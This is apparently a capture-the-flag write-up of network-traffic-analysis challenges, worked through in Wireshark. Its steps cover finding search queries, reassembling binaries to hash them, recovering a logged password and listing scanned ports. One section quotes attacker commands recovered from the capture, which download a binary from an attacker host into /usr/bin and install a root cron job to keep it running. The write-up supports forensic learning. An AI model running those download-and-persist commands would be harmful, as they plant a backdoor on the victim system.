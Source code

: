 # Network Traffic Analysis challenges
aka pcap challenges!

## Introduction
This writeup is for all the challenges under the category of `pcap`. All challenges use one pcap file, and each task requires analysis of different parts of the file.

## Monstrum ex Machina | 30pts
<img src="images/nta-chal1.png" height="50%" width="50%">

### Solution
Firstly, I searched to see if there was a direct way to look for search engine fields as there were a LOT of packets to filter through. I didn't get anything, but I did find a list of possible search engines, some of which I didn't know existed, in [this article](https://stackoverflow.com/questions/55243226/using-python-to-search-through-a-pcap-file-and-return-key-information-about-the). This definitely helped finding the flag easier.

I started to look through packets till I found some HTTP requests and responses. One of them mentioned baidu.com, so I went and followed the HTTP stream from that point on.

![](images/nta-search.png)

I found some JSON, which what looked like a bunch of search queries. Only one of them appeared to resemble a name, and I entered that as the flag. 

![](images/nta-query.png)

PS: This particular HTTP stream had an error with the spelling. It was only through searching this name myself did I realize this. 

From other writeups however, I found that there were packets where the spelling was correct. I didn't find those while the challenge was going on, so I reached out to the author of the challenge, and eventually both spellings were considered as the correct flag.

Flag: `flag{Charles Geschickter}`
<br /><br />

## The SUM of all FEARS | 50pts
<img src="images/nta-chal2.png" height="50%" width="50%">


### Solution
Once again, off to Google to find an easier way to search for the file, and I found a way through [this video!](https://www.youtube.com/watch?v=3WQ19weoBc4)

In summary, using the display filter `frame contains <text>`can be used to look for specific files. In the video, the exe file is found by looking for the file headers, aka "MZ". Similarly the linux binary can be found by looking for "ELF".

![](images/nta-exe.png)
![](images/nta-bin.png)

As seen, there are two binaries with identical names, `lytton-crypt.exe` and `lytton-crypt.bin`

I initially thought that just this packet had the contents of the file, so I exported the bytes, calculated the md5 sum for both and typed the flag. That didn't work.

After which I removed the display filter, and saw that the contents are transferred in multiple parts (for both the EXE and the BIN). That explains why it didn't work. (The parts are marked in black)

![](images/nta-parts.png)

I don't know of a way to data from multiple packets as one file yet, so I exported each part as separate files and appended the data to the main file in the terminal. An example for the BIN file is below:

Step 1: Export the data from the packets by right clicking on FTP Data > Export Bytes.

![](images/nta-export1.png)

Step 2: Append the data from each of the parts to the first part, `lytton-crypt.bin`.
```shell
$ cat lytton-crypt2.bin >> lytton-crypt.bin
$ cat lytton-crypt3.bin >> lytton-crypt.bin
```
The same steps were followed for the EXE binary.

Now that we have the complete EXE and BIN binaries, it is time to calculate the MD5 hash and complete the challenge!

```shell
$ echo "flag{"$(md5sum lytton-crypt.exe | cut -d ' ' -f 1)"|"$(md5sum lytton-crypt.bin | cut -d ' ' -f 1)"}"
flag{9cb9b11484369b95ce35904c691a5b28|4da8e81ee5b08777871e347a6b296953}
```

PS: The `cut` statement is added to remove the name of the file which is usually included in the output of `md5sum`.

Flag: `flag{9cb9b11484369b95ce35904c691a5b28|4da8e81ee5b08777871e347a6b296953}`
<br />

## Release the Crackin'! | 50pts
<img src="images/nta-chal3.png" height="50%" width="50%">

### Solution
Off to Google AGAIN to look for ways to search for passwords, these challenges really taught me about features of Wireshark I had no idea existed.

The solution for this challenge comes from [this video](https://www.youtube.com/watch?v=BFcl5OciJWc) about the Credentials feature in Wireshark.

By clicking on Tools > Credentials, Wireshark analyzes for potential usernames and passwords in this pcap file. 

![](images/nta-credentials.png)

I looked through some of the MANY packets listed, but then something struck. The last packet should be the one to check, as that would have the password through which the attacker logged in.

![](images/nta-password.png)

THERE WE GO! The password is darkangel.

Flag: `flag{darkangel}`
<br /><br />

## Luciafer, You Clever Little Devil! | 50pts
<img src="images/nta-chal4.png" height="50%" width="50%">

### Solution
The answer for this can be found in the last screenshot of the previous challenge. The packet number of the "User is logged in" response is the answer for this challenge.

Flag: `flag{159765}`
<br /><br />

## Lucifer's Fatal Error | 50pts
<img src="images/nta-chal5.png" height="50%" width="50%">

### Solution
While searching for the `lytton-crypt` binaries, I found another binary called `secret-decoder.bin`. Viewing the contents of this file, we see a command to execute a shell.

![](images/nta-program.png)

That is enough evidence that this is the malicious program. I exported the bytes similar to the [SUM of all FEARS challenge](#sum-of-all-fears) and then calculated the MD5 hash. This binary was only in one packet so that was easy!

```shell
$ echo "flag{"$(md5sum secret-decoder.bin | cut -d ' ' -f 1)"}" 
flag{42e419a6391ca79dc44d7dcef1efc83b}
```

Flag: `flag{42e419a6391ca79dc44d7dcef1efc83b}`
<br /><br />

## Scanners | 100pts
<img src="images/nta-chal6.png" height="50%" width="50%">

### Solution
From the previous challenge, we know that Lucaifer's IP address is 192.168.100.106 and the IP of the victim computer is 192.168.100.103. So we have to look for packets sent from Lucaifer to the victim computer.

This can be done by setting a display filter `ip.src==192.168.100.106 && ip.dst==192.168.100.103` 

A feature that makes sorting through the packets even easier is the Conversations feature in Wireshark, which I found out from [this video](https://www.youtube.com/watch?v=Zi1aaEJg5YI) (yes, I referred to a lot of YouTube videos throughout these challs). This shows a summary of all the packets sent in this pcap file.

![](images/nta-ports.png)

Before finding the port numbers, I checked the "limit to display filter" button in the bottom so that the information could be filtered further. After this, I started to look through the list and noted down the port numbers where more than one packet was sent, as is seen with port 21 in the above image. The ports found were 21, 135, 139, 445 and 3389.


Flag: `flag{21,135,139,445,3389}`
<br /><br />

## Persistence Pays Off | 100pts
<img src="images/nta-chal7.png" height="50%" width="50%">

### Solution
I went back to the packet where secret-decoder.bin was downloaded by Lucaifer to see if there were any adversary after installing it. The IP found was 192.168.100.105

![](images/nta-adversary.png)

I then filtered the packets using the display filter `ip.src==192.168.100.105 && ip.dst==192.168.100.106` and looked for any packets that may contain something suspicious.

A few packets were found with the following bash commands:
```shell
sudo wget -O /usr/bin/ll-connect.bin http://192.168.100.105/secret_decoder.bin
```
```shell
sudo chmod 755 /usr/bin/ll-connect.bin
```
```shell
sudo /bin/bash -c "echo '*/5 * * * * root /usr/bin/ll-connect.bin' > /etc/cron.d/da-ll-backup-job"
```
These may be to set up some sort of backdoor, I'm not very sure but the last command looks like an attempt to attain persistence.

The last command was found in packet 160468, which is the flag for this challenge.

![](images/nta-backdoor.png)

Flag: `flag{160468}`
<br /><br />

## A Warning | 150pts
<img src="images/nta-chal8.png" height="50%" width="50%">

### Solution
While going through the packets for the previous challenge, I found two packets that had some interesting information. These packets were above the "Stay away from Lytton labs..." message

![](images/nta-message1.png)

![](images/nta-message2.png)

I tried decoding the text in the first screenshot, nothing. The second screenshot, however, mentions an image called da-warning-message.jpg

I entered the display filter `frame contains "da-warning-message"` to see if I can get the image file in one of the packets.

![](images/nta-warning.png)

I then removed the display filter to look through the packets after the HTTP OK message, and the very next packet was the one with the image!

![](images/nta-image.png)

I exported the image by right clicking on the JPEG File Interchange Format section and clicking on "Export Bytes". After saving the file and opening it, there it was, the flag for the challenge

![](images/da-warning-message.jpeg)

Flag: `flag{angels-fear-to-tread}`
